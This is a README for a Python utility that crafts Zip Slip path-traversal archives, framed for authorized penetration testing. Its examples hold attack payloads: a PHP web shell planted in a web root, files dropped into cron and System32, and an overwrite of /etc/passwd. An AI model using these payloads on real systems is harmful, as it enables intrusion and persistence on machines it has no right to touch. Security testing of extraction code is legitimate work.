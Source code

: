# Zip Slip Vulnerability Archive Creator

A powerful tool for creating archives with Zip Slip vulnerability for authorized security testing and penetration testing purposes.

## About

s31zipslip is a Python utility designed to create archive files (ZIP, JAR, TAR, etc.) containing specially crafted paths that demonstrate the Zip Slip vulnerability (CVE-2018-1002200). This tool helps security professionals test their applications against directory traversal attacks through archive extraction.

## Features

- Support for multiple archive formats: ZIP, JAR, TAR, TAR.GZ, TAR.BZ2
- Windows and Linux path traversal support
- Customizable target paths and filenames
- Flexible file content specification

## Usage

### Basic Syntax
```bash
python3 s31zipslip.py -d TARGET_DIRECTORY -f FILENAME -o OUTPUT_FILE [-c CONTENT]
```

### Options
| Flag | Description | Example |
|------|-------------|---------|
| `-d, --directory` | Target directory path for Zip Slip | `../../../../../../../tmp/` (Linux) or `..\..\..\Windows\Temp\` (Windows) |
| `-f, --filename` | Filename to create inside the archive | `test.txt` |
| `-o, --output` | Output archive filename | `exploit.zip` |
| `-c, --content` | File content (optional) | `"Malicious content"` |

### Examples

**Linux path traversal:**
```bash
python3 s31zipslip.py -d '../../../../../../../tmp/a/' -f test.txt -o test.zip
```

**Windows path traversal:**
```bash
python3 s31zipslip.py -d '..\..\..\..\..\..\Windows\Temp\' -f test.txt -o test.zip
```

**Create a TAR.GZ archive targeting cron directory (Linux):**
```bash
python3 s31zipslip.py -d '../../../../../../../etc/cron.d/' -f malicious.cron -o payload.tar.gz
```

**Create a JAR archive targeting Windows System32:**
```bash
python3 s31zipslip.py -d '..\..\..\..\..\..\Windows\System32\' -f malicious.dll -o exploit.jar
```

**Create a JAR archive with PHP shell content (Linux):**
```bash
python3 s31zipslip.py -d '../../../../../../../var/www/html/' -f shell.php -o exploit.jar -c '<?php system($_GET["cmd"]); ?>'
```

**Create a TAR archive with custom content:**
```bash
python3 s31zipslip.py -d '../../../../../../../etc/passwd' -f shadow -o backup.tar -c 'root:x:0:0:root:/root:/bin/bash'
```

## Supported Archive Formats

- **ZIP** (.zip)
- **JAR** (.jar)
- **TAR** (.tar)
- **TAR.GZ** (.tar.gz, .tgz)
- **TAR.BZ2** (.tar.bz2)

## How It Works

The tool creates archives containing files with malicious paths that include directory traversal sequences (`../` for Linux or `..\` for Windows). When vulnerable applications extract these archives without proper path sanitization, the files can be written to unexpected locations outside the intended extraction directory. The tool automatically detects the target platform based on the path separators used.
